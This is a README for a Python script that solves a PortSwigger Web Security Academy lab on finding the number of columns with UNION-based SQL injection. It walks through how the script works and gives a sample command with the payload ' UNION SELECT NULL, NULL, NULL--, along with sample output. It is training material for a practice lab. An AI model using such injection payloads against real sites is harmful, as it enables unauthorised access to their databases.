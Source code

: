 # 🔐 SQL Injection Tester – Web Security Academy Lab

This script is designed to test for basic SQL injection vulnerabilities in labs from PortSwigger's Web Security Academy Lab: [SQL injection vulnerability using UNION to identify count of columns returned by query](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns#). It targets endpoints like `/filter?category=` and checks whether a given payload successfully bypasses input validation.

---

## 🚀 How It Works

The script performs the following steps:

1. **Disables SSL warnings** to avoid certificate issues with lab URLs.
2. **Sets up a proxy** (default: `127.0.0.1:8080`) for interception via tools like Burp Suite.
3. **Accepts two arguments**:
   - `url`: The base URL of the lab.
   - `payload`: The SQL injection payload to test.
4. **Constructs the full request URL** by appending the payload to `/filter?category=`.
5. **Sends the request** and checks the response for a known keyword (e.g., `"Congratulations, you solved the lab!"`).
6. **Prints the result** indicating whether the injection was successful.

---

## 🧪 Sample Usage

```bash
python3 unionColumnCount.py https://0a82001304b6eb4f81be4d4b003300ed.web-security-academy.net "' UNION SELECT NULL, NULL, NULL--"
```

### ✅ Sample Output

```
(+) Targeting: https://0a82001304b6eb4f81be4d4b003300ed.web-security-academy.net
(+) Endpoint: /filter?category=
(+) Testing payload: ' UNION SELECT NULL, NULL, NULL--
(+) Encoded payload: %27+UNION+SELECT+NULL%2C+NULL%2C+NULL--
(+) Full request URL: https://0a82001304b6eb4f81be4d4b003300ed.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL%2C+NULL%2C+NULL--


[+] SQL injection successful!
```

---

## 📌 Lab-Specific Note

For this particular lab, the script checks whether the response contains the word `"Congratulations, you solved the lab!"` to determine success. You can modify this keyword in the code to match other labs or contexts.

---

## 📦 Requirements

Install dependencies using:

```bash
pip install -r requirements.txt
```

---

## 📦 Walkthrough of the code
[Code Walkthrough](https://medium.com/@adhithyasivanesh/portswigger-web-security-academy-labs-sqli-lab-1-retrieving-hidden-data-fe40ea356d5d)

